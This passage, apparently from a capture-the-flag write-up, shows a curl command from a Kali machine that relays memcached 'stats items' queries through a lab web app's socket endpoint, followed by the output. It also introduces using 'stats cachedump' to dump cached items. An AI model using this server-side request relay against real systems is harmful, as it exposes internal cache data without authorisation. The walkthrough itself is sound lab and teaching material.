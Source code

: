     STAT 26:free_chunks_end 0
    STAT 26:mem_requested 24699
    STAT 26:get_hits 0
    STAT 26:cmd_set 1
    STAT 26:delete_hits 0
    STAT 26:incr_hits 0
    STAT 26:decr_hits 0
    STAT 26:cas_hits 0
    STAT 26:cas_badval 0
    STAT 26:touch_hits 0
    STAT active_slabs 2
    STAT total_malloced 2078904
    END
    
    root@kali# curl -s 'http://10.10.10.86:8080/socket?port=11211&cmd=stats items' -H "Cookie: password=secret" | sed -n '/pre/{:a;n;/pre/b;p;ba}'
    STAT items:16:number 1
    STAT items:16:age 11
    STAT items:16:evicted 0
    STAT items:16:evicted_nonzero 0
    STAT items:16:evicted_time 0
    STAT items:16:outofmemory 0
    STAT items:16:tailrepairs 0
    STAT items:16:reclaimed 0
    STAT items:16:expired_unfetched 0
    STAT items:16:evicted_unfetched 0
    STAT items:16:crawler_reclaimed 0
    STAT items:16:crawler_items_checked 0
    STAT items:16:lrutail_reflocked 0
    STAT items:26:number 1
    STAT items:26:age 11
    STAT items:26:evicted 0
    STAT items:26:evicted_nonzero 0
    STAT items:26:evicted_time 0
    STAT items:26:outofmemory 0
    STAT items:26:tailrepairs 0
    STAT items:26:reclaimed 0
    STAT items:26:expired_unfetched 0
    STAT items:26:evicted_unfetched 0
    STAT items:26:crawler_reclaimed 0
    STAT items:26:crawler_items_checked 0
    STAT items:26:lrutail_reflocked 0
    END
    

#### Get Item Names for Each Slab

Looking at the output from `stats items` and `stats slabs`, I’ll notice that
each shows two slab ids: 16 and 26. You can think of these almost like tables
in a database. Each slab is a different group of cached data.

For each slab, I’ll use the `stats cachedump` command (which is actually an
[undocumented feature](https://blog.elijaa.org/2010/12/24/understanding-
memcached-stats-cachedump-command/)). It will give me each item in the slab,
with its size and expiration timestamp:

